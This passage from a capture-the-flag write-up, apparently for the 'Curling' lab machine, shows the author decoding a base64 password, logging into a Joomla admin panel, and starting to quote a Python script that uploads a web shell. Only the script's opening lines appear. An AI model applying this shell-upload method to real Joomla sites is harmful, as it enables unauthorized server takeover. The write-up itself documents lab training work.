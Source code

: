 Looks like we found something interesting. It turns out to be a password base64 encoded:

*Contents of secret.txt*

![Img](/assets/posts_details/Curling/images/curl_pass.png "Img")

So credentials are ``Floris:Curling2018! ``. Then I tried to log in to the admin panel.

*Admin panel*

![Img](/assets/posts_details/Curling/images/admin_panel.png "Img")

And we are in! Now we just need a way of getting RCE. I could have modified any PHP script in order to do so, but I found a python script that automated this for me (a bit lazy I know).

I modified it a bit to include my credentials and the URL and good to go!

```py
#!/usr/bin/env python
# joomla_shellup.py - small script to upload shell in Joomla
#
# 02.05.2017, rewrited: 27.05
# -- hint --
# To exploit this "feature" you will need valid credentials.'
# Based on latest (3.6.5-1) version.'
#   Tested also on: 3.7.x

import requests
import re

target = "http://10.10.10.150"

print '[+] Checking: ' + str(target)
```